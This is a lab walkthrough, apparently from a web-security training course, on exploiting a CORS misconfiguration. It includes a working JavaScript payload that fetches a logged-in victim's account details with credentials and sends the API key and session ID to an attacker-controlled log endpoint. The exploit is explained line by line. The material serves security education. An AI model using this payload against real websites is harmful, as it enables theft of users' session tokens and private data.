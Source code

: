 This suggests, that this website might support CORS. Right-click this request and send it to __Repeater__. Add header `Origin: https://example.com` in the request and click Send. Observe, that origin is reflected in `Access-Control-Allow-Origin` header. 

Go to exploit server and enter the following HTML into "Body" section:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

`var req = new XMLHttpRequest();` --- This creates a new XMLHttpRequest object, used to send HTTP requests from the browser _(AJAX request)_. 
`req.onload = reqListener;` --- When the request completes successfully, the browser will call the `reqListener()` function with the response.
`req.open('get', 'YOUR-LAB-ID.web-security-academy.net/accountDetails', true);` --- Prepares `GET` request to the URL `/accountDetails` on the specified domain (`YOUR-LAB-ID.web-security-academy.net`), in asynchronous mode (`true`). This endpoint returns private user information like name, email, or account data. 
`req.withCredentials = true;` --- This tells the browser to __include cookies and session tokens__ with the request. This is crucial for stealing authenticated data because it ensures the request is sent as the victim user. 
`req.send();` --- Sends the request to the server.
```javascript
function reqListener() {
  location='/log?key='+this.responseText;
};
```
- Once the response is received this function is triggered.
- It redirects the victim's browser to `/log?key=...`, appending the full response body (sensitive account data) as a `GET` parameter.
- If the attacker controls the `/log` endpoint, they can capture the response data when the redirect happens.

Once you paste this HTML, click "Store" and then "View exploit". Go to __Proxy__ > __HTTP history__ and click on the latest `GET /log?key=...` request. As you can see your API ended up in the URL along with your session ID:

```
GET /log?key={%20%20%22username%22:%20%22wiener%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22{YOUR-API-KEY}%22,%20%20%22sessions%22:%20[%20%20%20%20%22{YOUR-SESSION-ID}%22%20%20]} HTTP/2
```

Go back to the exploit server and click "Deliver exploit to victim". Click "Access log" and find victim's API key in the URL to solve the lab. 
